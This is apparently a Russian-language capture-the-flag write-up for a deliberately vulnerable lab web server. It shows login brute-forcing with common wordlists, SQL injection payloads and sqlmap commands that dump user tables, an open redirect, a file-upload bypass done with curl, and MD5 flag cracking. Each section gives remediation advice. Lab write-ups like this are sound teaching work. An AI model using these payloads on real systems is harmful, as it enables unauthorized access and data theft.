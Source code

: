 | [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|

#Защита проекта

Запускаем ВМ, получаем на экране IP адрес запущенного сервера. 

<img width="1200" alt="Screen Shot 2022-11-11 at 11 16 21" src="https://user-images.githubusercontent.com/84193980/201297810-9f5e8917-2f55-4ee0-96ad-2d347395af7f.png">

На Маке в браузере вводим этот адрес:

<img width="1276" alt="Screen Shot 2022-11-11 at 11 23 36" src="https://user-images.githubusercontent.com/84193980/201297804-96514ae7-6e1f-46de-b987-7e2d2c776cee.png">

<details><summary>01. Brute force данных для входа</summary>

| Найдено на странице | http://192.168.56.3/?page=signin |
|-|-|

[The main source of information](https://owasp.org)

<details><summary>Что такое `Brute force` и как взломано</summary>
  
![44-BruteForce](https://user-images.githubusercontent.com/84193980/201331815-afabace6-0df6-4de6-83cf-549b7577436b.jpeg)

`Brute force` использует метод проб и ошибок, чтобы угадать данные для входа, ключи шифрования или найти скрытую веб-страницу. Хакеры перебирают все возможные комбинации, надеясь угадать правильно.

Это старый метод атаки, но он по-прежнему эффективен и популярен среди хакеров. Потому что в зависимости от длины и сложности пароля его взлом может занять от нескольких секунд до многих лет.

На вышеуказанной странице мы можем ввести логин и пароль. 
  
 <img width="1169" alt="Screen Shot 2022-11-11 at 14 36 53" src="https://user-images.githubusercontent.com/84193980/201332789-dce4b467-d603-40db-897b-82bceeffb68f.png">
 
Когда мы вводим неправильный пароль, мы видим, что веб-страница перенаправляет на следующую страницу, на которой есть очень специфическое изображение images/WrongAnswer.gif:

<img width="1904" alt="Screen Shot 2022-11-11 at 14 35 05" src="https://user-images.githubusercontent.com/84193980/201332820-9375ec69-2e0b-4a86-b11c-2f21fc528212.png">
 
Мы можем использовать это для `Brute force` процесса входа в систему.

Для этого из [OWASP SecLists](https://github.com/danielmiessler/SecLists) используем наиболее часто используемые [имена пользователей](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) и [паролей](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

Используя простой скрипт, мы можем попробовать каждую комбинацию наиболее часто используемых паролей и имен пользователей, и если мы не видим изображение «WrongAnswer.gif» на экране, то это означает, что мы успешно вошли в систему!

В папке Resources (default address 192.168.56.3, можно просто Enter):
```
python3 bf_login.py
```

</details>

Брутфорсом получены следующие пароли:

<img width="581" alt="Screen Shot 2022-11-13 at 07 06 55" src="https://user-images.githubusercontent.com/84193980/201506871-5f672d26-6b82-41d6-813d-01639bbe05ff.png">

Заходим по адресу: http://192.168.56.3/?page=signin, вводим логин и пароль. Наслаждаемся!

### Как исправить:
- Используйте более надежное имя пользователя и пароль
- Brute force detection tools
- Captcha
- Анализ и блокировка поступающих запросов:
	- Извлечение необходимых для принятия решений данных (IP, URL, ARGS, BODY);
	- Фильтрация полученных данных с исключением нецелевых URI для уменьшения количества ложных срабатываний;
	- Выбор запросов с одного адреса на конкретный URI по мере их близости или запросов со всех адресов на конкретный URI (для выявления распределенных атак методом перебора) в рамках определенного временного окна;
	- Блокирование источника(ов) атаки при превышении пороговых значений.

----

</details>

<details><summary>02. Атака с внедрением SQL на странице поиска пользователя</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=member |
|-|-|

[SQL injection](https://www.owasp.org/index.php/SQL_Injection)

<details><summary>Что такое `Атака с внедрением SQL` и как взломано</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как взломано ##
- Метод 1. С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">
	
	- Выведем дамп таблицы users:
	```
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --dump -T users
	```
	<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

		Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 
		key: 5ff9d0165b4f92b14994e5c685cdce28 
		oter keys:
		2b3366bcfd44f540e630d4dc2b9b06d9
		60e9032c586fb422e2c16dee6286cf10 (oktoberfest)
		e083b24a01c483437bcf4a9eea7c1b4d 

- Метод 2. Через поле ввода страницы сайта.

	- Если оставить поле ввода пустым и нажать Enter, то мы получим:
	```
	You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
	```

	Значит, используется MariaDB

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы users: user_id, first_name, last_name, town, ountry, planet, Commentaire, countersign

	Что бы посмотреть все данные пользователей:
	```
	1 OR 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
	```
	<img width="922" alt="Screen Shot 2022-11-12 at 16 59 20" src="https://user-images.githubusercontent.com/84193980/201477846-0f12c5e8-c33f-41dc-a94e-1755141cab9d.png">

	или

	В папке Resources (default address 192.168.56.3, можно просто Enter):
	```
	./get_page-user.sh
	```
	<img width="1560" alt="Screen Shot 2022-11-12 at 16 24 55" src="https://user-images.githubusercontent.com/84193980/201477797-c91bba96-6d18-4aab-81f4-6d212cff7c24.png">

- Нас интересует пользователь, в Surname которого указано "Decrypt this password"

</details>

Полученный ключ: 5ff9d0165b4f92b14994e5c685cdce28

Нам надо сделать: Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 

Вспомним данные, полученные ранее:

<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

MD5 hash oktoberfest это 60e9032c586fb422e2c16dee6286cf10

По аналогии [Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28): FortyTwo

lower all the char: fortytwo

[sh256](https://crypt-online.ru/crypts/sha256/): 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>03. Атака с внедрением SQL на странице поиска картинки</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=searchimg |
|-|-|

<details><summary>Что такое `Атака с внедрением SQL на странице поиска картинки` и как взломано</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как взломано ##
- С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">

	Нас интересует таблица list_images

- Через поле ввода страницы сайта.

	Ввести в поле ввода:
	```
	1 OR 1=1 UNION SELECT NULL, NULL--
	```

	Значит, имеется 2 колонки

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы list_images: id, url, title, comment

	Что бы посмотреть все данные всех картинок:
	```
	1 OR 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
	```

	<img width="1080" alt="Screen Shot 2022-11-13 at 08 45 05" src="https://user-images.githubusercontent.com/84193980/201508206-c0769387-7568-41ea-8410-47080f3b4df4.png">

	В данных последней картинки находим:
		Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

	или

	В папке Resources (default address 192.168.56.3, можно просто Enter):
	```
	./get_page-pic.sh
	```
	
	<img width="1011" alt="Screen Shot 2022-11-13 at 08 53 05" src="https://user-images.githubusercontent.com/84193980/201508219-a9de4b5f-89bd-49b0-bb29-21a4d41a4d54.png">

- Нас интересует картинка, у которой "Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

</details>

ключ: 1928e8083cf461a51303633093573c46

По аналогии с предыдущей инъекцией:

[Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46): albatroz

lower all the char: albatroz

[sh256](https://crypt-online.ru/crypts/sha256/): f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>04. Непроверенные переадресации и пересылки</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Непроверенные переадресации и пересылки` и как взломано</summary>

https://habr.com/ru/company/otus/blog/511428/

Одной из наиболее распространенных и тем не менее игнорируемых веб-разработчиками уязвимостей является Open Redirect (также известная как «Непроверенные переадресации и пересылки»). Веб-сайт считается уязвимым для Open Redirect, если значения параметра (часть URL-адреса после «?») в HTTP GET-запросе позволяет перенаправить пользователя на новый сайт без проверки целевого сайта. В зависимости от архитектуры уязвимого сайта, перенаправление может произойти после определённых действий, таких как вход в систему, а иногда это может произойти мгновенно при загрузке страницы.

Пример уязвимой ссылки выглядит примерно так: www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext

В этом примере параметр «RelayState» указывает куда нужно перенаправить пользователя после успешного входа в систему (в нашем примере это example.com/next). Если сайт не проверяет значение параметра «RelayState» на предмет легитимности и безопасности, то злоумышленник может воспользоваться этим параметром, чтобы перенаправить жертву на фейковую страницу, созданную самим злоумышленником: www.example.com/login.html?RelayState=http%3A%2F%2FEvilWebsite.com

Перенаправление на разные сайты социальных сетей в нижней части веб-сайта не подтверждено. Открытые перенаправления не являются критическими непосредственно для самого сайта и не позволяют злоумышленнику украсть данные, принадлежащие владельцу сайта, но представляют большую опасность для пользователя сайта. Жертва может не заметить, что в середине длинного URL-адреса есть параметры, которые манипулируют и изменяют конечную точку.

Как взломано:

В Chrome в нижней части экрана (footer, где значок Facebook) нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес (добавить что-либо)

Теперь, нажав на значок Facebook получаем страницу с ключом

</details>

<img width="963" alt="Screen Shot 2022-11-13 at 10 07 09" src="https://user-images.githubusercontent.com/84193980/201510524-675934ca-98fa-4e5c-81ab-9fec8749a526.png">

### Как исправить:
- Лучший способ избежать уязвимости Open Redirect – это избегать перенаправления по параметру, зависящему от пользователя или приходящего через GET-запрос. Если перенаправление неизбежно, с ним можно совладать, проверив конечный сайт и очистив его репутацию с помощью белого списка подтвержденных URL-адресов.

----

</details>

<details><summary>05. Неограниченная загрузка файлов</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=upload |
|-|-|

<details><summary>Что такое `Неограниченная загрузка файлов` и как взломано</summary>

[Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

Загруженные файлы представляют значительный риск для приложений. Первым шагом во многих атаках является передача некоторого кода в атакуемую систему. Тогда атаке нужно только найти способ выполнить код. Использование загрузки файла помогает злоумышленнику выполнить первый шаг.

Последствия неограниченной загрузки файлов могут быть разными, включая полный захват системы, перегрузку файловой системы или базы данных, перенаправление атак на серверные системы, атаки на стороне клиента или простое искажение. Это зависит от того, что приложение делает с загруженным файлом и особенно от того, где он хранится.

## Как обнаружено ##

Если попытаться загрузить файл "php", то это не сработает. Когда мы загружаем файл php, наш браузер отправляет в заголовках HTTP «content-type», который является «application/octet-stream» для файла php и «image/jpeg» для файла jpeg.

Вышеуказанная страница заточена ТОЛЬКО для приёма изображений. НО! На этом сайте бэкенд не проверяет тип файла, поэтому при загрузке любого типа файла сайт примет его. В следующем скрипте мы делаем так, чтобы наш файл выглядел так, как будто мы отправляем изображение.

Перейти в теминале папку Ressources и там выполнить:
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@1.test;type=image/jpeg' http://192.168.56.3/index.php\?page\=upload\# | grep "flag"
```

</details>

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

### Как исправить:
- Вы должны перепроверить тип файла и никогда не доверять пользователю.

----

</details>

<details><summary>06. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>07. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>08. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>09. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>10. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>11. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>12. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>13. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>

<details><summary>14. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как взломано</summary>



</details>



### Как исправить:
- 

----

</details>


| [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|
